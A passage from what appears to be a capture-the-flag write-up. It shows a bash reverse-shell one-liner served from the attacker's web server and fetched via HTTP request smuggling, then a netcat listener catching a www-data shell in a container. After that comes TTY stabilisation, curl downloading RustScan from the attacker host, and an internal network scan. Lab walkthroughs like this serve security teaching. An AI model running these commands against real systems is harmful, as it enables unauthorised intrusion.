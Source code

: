 Next, we host a reverse shell payload on our web server:

```console
$ cat index.html
/bin/bash -i >& /dev/tcp/10.14.101.76/443 0>&1

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And making the request with our **HTTP smuggling payload**:

![Web 80 Page Request Smuggling](web_80_page_request_smuggling.webp){: width="1300" height="500"}

We can see the target fetching the reverse shell payload:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.158.77 - - [16/Aug/2025 17:23:06] "GET / HTTP/1.1" 200 -
```

And on our listener we are able to get a shell as `www-data` inside a container.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.158.77] 40064
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@124a042cc76c:/var/www/html$ script -qc /bin/bash /dev/null
www-data@124a042cc76c:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  - continued  nc -lvnp 443

www-data@124a042cc76c:/var/www/html$ export TERM=xterm
www-data@124a042cc76c:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as hansolo

### Scanning the Network

Enumerating the container, we can find its IP as `172.18.0.3` and scanning the network with **RustScan**, we discover an unusual port open on the host at `172.18.0.1:5000`.

```console
www-data@124a042cc76c:/tmp$ hostname -I
172.18.0.3
www-data@124a042cc76c:/tmp$ curl -s http://10.14.101.76/rustscan -o rustscan
www-data@124a042cc76c:/tmp$ chmod +x rustscan
www-data@124a042cc76c:/tmp$ ./rustscan --top -a 172.18.0.1,172.18.0.2 --accessible
Open 172.18.0.1:22
Open 172.18.0.1:80
Open 172.18.0.2:80
Open 172.18.0.1:5000
```
